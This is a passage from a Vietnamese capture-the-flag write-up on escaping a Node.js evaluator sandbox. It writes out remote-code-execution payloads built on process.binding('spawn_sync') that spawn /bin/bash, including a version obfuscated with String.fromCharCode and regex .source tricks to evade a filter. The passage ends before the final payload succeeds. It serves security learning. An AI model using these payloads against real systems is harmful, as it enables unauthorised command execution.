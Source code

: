 Vậy chỉ còn hướng duy nhất là RCE.

## RCE RCE RCE RCE

Tiếp tục dựa trên link ở trên, ta được thông tin sau:

![image](https://user-images.githubusercontent.com/75429369/179694331-e9a2ba1c-3b01-486d-b53f-02a6ae52bfd7.png)

Ta có thể sử dụng `binding` để thay thế cho `child_process` như thường thấy vì `require` không thể dùng được, và nếu như mình không sai và dựa trên hình trên thì bản chất của `child_process` nó cũng dựa trên thằng `process.binding` này.

Tới đây, khi tiếp tục tìm thêm thông tin về hướng làm này thì mình xem được write up [này](https://blog.ssrf.kr/41) . Trong đó có bài `Safe Evaluator` có cách tiếp cận và hướng làm y hệt, mình lấy tạm payload người ta và về debug :)).

```javascript
process.binding('spawn_sync').spawn({file: '/bin/bash',args: ['bash','-c','ls'],stdio: [{type: 'pipe',readable: 1}]})
```

![image](https://user-images.githubusercontent.com/75429369/179696473-9937724a-4b75-4cc0-9ead-51792b8f69bf.png)

`output` ra null vì `pipe` hiện tại có thể ghi được nên ta thêm thuộc tính `writable` nữa là sẽ có output

![image](https://user-images.githubusercontent.com/75429369/179696715-6eec623f-bce3-4a35-b548-f3c57ccdd2d5.png)

Đã trả về buffer nhưng có gì đấy sai sai, những con số Hex encode từ lệnh `ls` đã đi đâu??? Mình chưa có câu trả lời cho câu hỏi này nhưng tới đây mình suy đoán rằng cái Buffer đang hiện ra chỉ là buffer trỏ vào thằng object `process.binding`, nên ta sẽ thêm vào 1 object nữa để trỏ tới cái `spawn` của lệnh `bin/bash`

```javascript
process.binding('spawn_sync').spawn({file: '/bin/bash',args: ['bash','-c','ls'],stdio: [{type: 'pipe',readable: 1, writable: 1}, {type: 'pipe', writable: 1, readable: 1}]}).output
```

![image](https://user-images.githubusercontent.com/75429369/179698411-37a3ea21-c5e3-4f37-bd68-316335b0a7c1.png)

![image](https://user-images.githubusercontent.com/75429369/179698475-05d3ebfa-aaaa-4535-aff8-f7055f558dca.png)


Thứ ta mong đợi đã có, giờ thì chỉ cần chỉnh payload lại để né được filter để sử dụng lên web chính

```javascript
process.binding(/spawn_sync/.source).spawn({file: String.fromCharCode(9+9+9+9+9+2,98,99+2+2+2,98+2+2+2+2+2+2,9+9+9+9+9+2,98,99-2,98+8+9,98+2+2+2),args: [/bash/.source,/-c/.source,/ls/.source],stdio: [{type: /pipe/.source,readable: 1, writable: 1}, {type: /pipe/.source, writable: 1, readable: 1}]}).output
```

![image](https://user-images.githubusercontent.com/75429369/179701545-88bca9fc-facf-4953-b516-b5871df847c1.png)

Đang vui vì biết nó sẽ ra thôi nhưng không :) 
